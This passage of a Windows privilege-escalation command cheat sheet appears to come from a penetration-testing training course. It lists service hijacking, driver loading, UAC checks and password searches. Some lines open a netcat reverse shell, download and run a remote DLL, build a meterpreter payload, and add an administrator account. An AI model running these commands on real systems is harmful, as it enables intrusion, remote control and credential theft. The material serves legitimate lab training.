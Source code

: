 | `reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1`                                                                                                              | Add reference to a driver (2)                              |
| `.\DriverView.exe /stext drivers.txt` and `cat drivers.txt \| Select-String -pattern Capcom`                                                                                          | Check if driver is loaded                                  |
| `EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys`                                                                                                               | Using EopLoadDriver                                        |
| `c:\Tools\PsService.exe security AppReadiness`                                                                                                                                        | Checking service permissions with PsService                |
| `sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"`                                                                                              | Modifying a service binary path                            |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`                                                                                | Confirming UAC is enabled                                  |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`                                                               | Checking UAC level                                         |
| `[environment]::OSVersion.Version`                                                                                                                                                    | Checking Windows version                                   |
| `cmd /c echo %PATH%`                                                                                                                                                                  | Reviewing path variable                                    |
| `curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"`                                                                           | Downloading file with cURL in PowerShell                   |
| `rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll`                                                                                   | Executing custom dll with rundll32.exe                     |
| `.\SharpUp.exe audit`                                                                                                                                                                 | Running SharpUp                                            |
| `icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"`                                                                                                                       | Checking service permissions with icacls                   |
| `cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"`                                                                                           | Replace a service binary                                   |
| `wmic service get name,displayname,pathname,startmode \| findstr /i "auto" \| findstr /i /v "c:\windows\\" \| findstr /i /v """`                                                      | Searching for unquoted service paths                       |
| `accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services`                                                                                                    | Checking for weak service ACLs in the Registry             |
| `Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"`            | Changing ImagePath with PowerShell                         |
| `Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl`                                                                                                  | Check startup programs                                     |
| `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`                                                                       | Generating a malicious binary                              |
| `get-process -Id 3324`                                                                                                                                                                | Enumerating a process ID with PowerShell                   |
| `get-service \| ? {$_.DisplayName -like 'Druva*'}`                                                                                                                                    | Enumerate a running service by name with PowerShell        |

## Credential Theft

| **Command**                                                                                                               | **Description**                                    |
| ------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| `findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`                                                              | Search for files with the phrase "password"        |
| `gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password` | Searching for passwords in Chrome dictionary files |